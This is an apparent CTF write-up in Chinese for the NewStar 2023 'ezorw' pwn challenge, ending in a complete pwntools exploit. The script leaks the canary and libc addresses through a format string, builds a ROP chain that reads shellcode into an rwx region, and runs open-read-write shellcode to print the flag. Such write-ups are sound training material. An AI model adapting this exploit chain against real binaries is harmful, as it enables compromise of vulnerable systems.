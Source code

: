 ```yaml
---
title: newstar2023 week3 - orw rop
date: 2023/10/11 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`ezorw`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序存在一片区域rwx，并且禁用了system，那么只要将shellcode写到那片区域，
再执行就可以了

那么没有gadgets怎么办？libc里应有尽有，只要知道了libcBase就可以拿到

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
sh = remote('node4.buuoj.cn', 28119)

# payload 1
sh.sendline(b'%11$p') # get canary
sh.recvline(b'x\n') # skip
canary = int(sh.recvline()[:18], 16)

elf = ELF('ezorw')
putsGot = elf.got['puts']
main = elf.symbols['main']

# payload 2, notice seccomp requires a balanced stack; place putsGot on stack
retAddr = 0x4013b2
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(retAddr) + p64(main) + p64(putsGot))

# payload 3, get puts@got
sh.sendlineafter(b'x\n', b'%13$s')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')

libcBase = putsGotAddr - 0x80ed0
popRsi = libcBase + 0x2be51
popRdxRbx = libcBase + 0x90529 # some gadgets in libc
readPlt = elf.plt['read']

# payload 4, make a read call to read shellcode to 0x66660000
sh.sendlineafter(b'now', b'0'*0x28 + p64(canary) + b'0'*8 + p64(popRsi) + p64(0x66660000) + p64(popRdxRbx) + p64(0x100) + p64(0) + p64(readPlt) + p64(0x66660000))

# payload 5, create orw shellcode
shc = asm(shellcraft.open('./flag') + shellcraft.read('rax', 'rsp', 0x100) + shellcraft.write(1, 'rsp', 0x100))
sh.sendline(shc)

sh.interactive()
```

Done.
